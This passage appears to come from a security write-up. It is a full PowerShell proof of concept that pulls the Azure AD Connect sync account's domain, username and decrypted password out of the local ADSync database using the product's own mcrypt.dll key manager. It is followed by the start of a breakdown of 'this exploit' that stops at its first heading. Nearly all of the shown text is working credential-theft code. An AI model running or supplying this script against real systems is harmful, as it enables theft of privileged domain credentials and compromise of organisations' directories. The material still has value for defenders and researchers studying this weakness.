 

```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

**Let's break down the key parts of this exploit**:


#### 1. Connecting to the `Database`: {#1-dot-connecting-to-the-database}
